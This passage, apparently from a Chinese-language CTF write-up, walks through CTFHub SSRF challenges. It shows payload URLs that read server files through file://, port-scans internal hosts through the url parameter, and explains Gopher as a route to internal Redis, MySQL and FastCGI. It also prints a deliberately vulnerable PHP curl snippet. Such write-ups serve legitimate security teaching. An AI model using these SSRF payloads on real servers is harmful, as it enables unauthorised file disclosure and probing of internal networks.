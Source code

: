 
```
http://challenge-36595a4428f0685b.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php

```

> 
执行后在源代码中查看flag


#### 端口扫描

> 
题目描述：来来来性感CTFHub在线扫端口，据说端口范围是8000-9000哦,


> 
题给是内网端口扫描，利用ssrf漏洞探测目标主机上还开放了哪些端口，在ssrf中`dict协议`与`http协议`可用来探测内网的主机存活与端口开放情况


> 
用burpsuite抓包来爆破内网的主机存活与端口开放情况，发现8845端口上存在Apache的web服务


> 
Payload


```
http://challenge-86b3590a2c824149.sandbox.ctfhub.com:10800/?url=http://127.0.0.1:8845

```

### 第二部分（Gopher协议的利用）

> 
`Gopher协议`是`HTTP协议`出现之前，在Internet上常见且常用的一个协议，不过现在Gopher协议用得已经越来越少了Gopher协议可以说是ssrf中的万金油，利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求，极大拓宽了ssrf的攻击面


#### POST请求

> 
题目描述：这次是发一个HTTP POST请求，对了，ssrf是用php的curl实现的，并且会跟踪302跳转，加油吧骚年


> 
用dirsearch扫描一下：`http://challenge-aa5afefd4daec439.sandbox.ctfhub.com:10800/`


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6c2a6908b7cb4b9eb81ac9491346e2da.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/cd9874c884ce4fe08ca4e8e62a494060.png#pic_center"/>

> 
读index.php的源码


```
http://challenge-aa5afefd4daec439.sandbox.ctfhub.com:10800/?url=file:///var/www/html/index.php

```

```
&lt;?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
```